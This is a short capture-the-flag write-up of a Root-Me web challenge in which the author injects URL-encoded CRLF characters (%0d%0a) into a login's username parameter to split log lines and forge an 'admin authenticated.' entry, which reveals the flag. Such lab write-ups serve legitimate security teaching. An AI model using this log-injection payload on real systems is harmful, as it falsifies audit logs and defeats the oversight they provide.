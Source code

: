 The goal is to inject some false data in the log.

If you enter login:password in the form, you will see a new line appearing in the Authentication Log:

```
login failed to authenticate
```
And we see that we are redirected to http://challenge01.root-me.org/web-serveur/ch14/?username=login&password=password

Well, we can try to inject a line jump in the logs. For this, we need to now the equivalent of CRLF in hex code (to put it in the address). This %0d%0a. Well, let's go to http://challenge01.root-me.org/web-serveur/ch14/?username=login%0d%0anewline&password=password

We know see this two lines in the log:

```
login
newline failed to authenticate.

```
It worked !
Now, let's inject "admin authenticated.". By following the same procedure, we can go to: [http://challenge01.root-me.org/web-serveur/ch14/?username=admin authenticated.%0D%0Anewline&password=password](http://challenge01.root-me.org/web-serveur/ch14/?username=admin authenticated.%0D%0Anewline&password=password)

At the bottom of the page, we can see:

```
Well done, you can validate challenge with this password : FLAG

```
